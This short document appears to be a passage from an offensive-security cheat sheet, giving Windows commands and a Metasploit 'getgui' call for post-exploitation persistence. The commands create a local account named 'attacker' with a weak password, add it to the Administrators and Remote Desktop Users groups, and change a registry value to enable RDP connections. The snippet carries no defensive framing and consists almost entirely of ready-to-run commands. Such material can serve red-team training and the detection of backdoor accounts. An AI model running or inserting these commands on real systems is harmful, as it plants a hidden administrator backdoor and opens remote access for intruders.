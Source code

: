 # Adding Admin user + adding to RDP
```powershell
net user /add attacker password123
net localgroup administrators attacker /add
net localgroup "Remote Desktop Users" attacker /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```



# getgui (Metasploit)
```
run getgui -e -u atk -p atk
```